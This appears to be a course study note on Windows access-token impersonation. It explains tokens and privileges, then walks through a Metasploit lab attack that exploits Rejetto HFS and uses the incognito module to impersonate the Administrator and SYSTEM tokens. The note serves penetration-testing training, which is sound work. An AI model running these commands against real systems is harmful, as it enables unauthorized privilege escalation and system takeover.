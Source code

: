 # 3 - Access Token Impersonation

### **Windows Access Tokens**

* Windows access tokens are a core element of the authentication process on Windows and are created and managed by the Local Security Authority Subsystem Service (LSASS).
* A Windows access token is responsible for identifying and describing the security context of a process or thread running on a system. Simply put, an access token can be thought of as a temporary key akin to a web cookie that provides users with access to a system or network resource without having to provide credentials each time a process is started or a system resource is accessed.
* Access tokens are generated by the winlogon.exe process every time a user authenticates successfully and includes the identity and privileges of the user account associated with the thread or process. This token is then attached to the userinit.exe process, after which all child processes started by a user will inherit a copy of the access token from their creator and will run under the privileges of the same access token.
* Windows access tokens are categorized based on the varying security levels assigned to them. These security levels are used to determine the privileges that are assigned to a specific token.
* An access token will typically be assigned one of the following security levels:
  * **Impersonate-level** tokens are created as a direct result of a non-interactive login on Windows, typically through specific system services or domain logons.
  * **Delegate-level** tokens are typically created through an interactive login on Windows, primarily through a traditional login or through remote access protocols such as RDP.
  * Impersonate-level tokens can be used to impersonate a token on the local system and not on any external systems that utilize the token.
  * Delegate-level tokens pose the largest threat as they can be used to impersonate tokens on any system.

### **Windows Privileges**

* The process of impersonating access tokens to elevate privileges on a system will primarily depend on the privileges assigned to the account that has been exploited to gain initial access as well as the impersonation or delegation tokens available.
* The following are the privileges that are required for a successful impersonation attack:
  * **SeAssignPrimaryToken**: This allows a user to impersonate tokens.
  * **SeCreateToken:** This allows a user to create an arbitrary token with administrative privileges.
  * **SeImpersonatePrivilege:** This allows a user to create a process under the security context of another user typically with administrative privileges.

### **The Incognito Module**

* Incognito is a built-in meterpreter module that was originally a standalone application that allows you to impersonate user tokens after successful exploitation.
* We can use the incognito module to display a list of available tokens that we can impersonate.



## **Practical Demonstration**

#### Gaining initial access on the target PC.

We will utilize the Rejetto Http File Server service vuln like in previous session.

#### To the attack.

> This attack depends on a few factors:
>
> * what user accts are currently on the system.
> * which of these users has admin priv or are part of the Local Admin group.
> * if you find an access token that is available or you can impersonate, then you can impersonate or obtain the priv associated with that access token.
> * Though the assess token does not need to belong to a particular user.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# using metasploit.
# we have a 32bit meterpreter session.
pgrep explorer
migrate <explorer ID>
# notice we can't migrate our process to a 64bit process (explorer process) because of insufficient priv.
getprivs
# we also notice we have the "SeImpersonatePrivilege" meaning we can use this acct to impersonate other acct to impersonate other access tokens available.
# using the "incognito" module.
load incognito
# if the session died, thats because we tried migrating to a process initially.
# so run the exploit again.
exploit
load incognito
list_tokens -u # list the "-u" to list the user option to list the user acct access tokens.
# inorder to impersonat the "ATTACKDEFENSE\Administrator" token we use the "impersonate_token" cmd.
impersonate_token "ATTACKDEFENSE\Administrator"
getuid  # we have successfully elevated our priv.
getprivs # we get an "Operation denied", so lete migrate to a 64bit process 1st.
pgrep explorer
migrate <explorer ID>
getprivs  # we now have admin privs.
getuid  # we are administrator.

# we can also impersonate the "NT AUTHORITY\SYSTEM" token too.
impersonate_token "NT AUTHORITY\SYSTEM"
getuid  # we are now NT AUTHORITY.


```
{% endcode %}



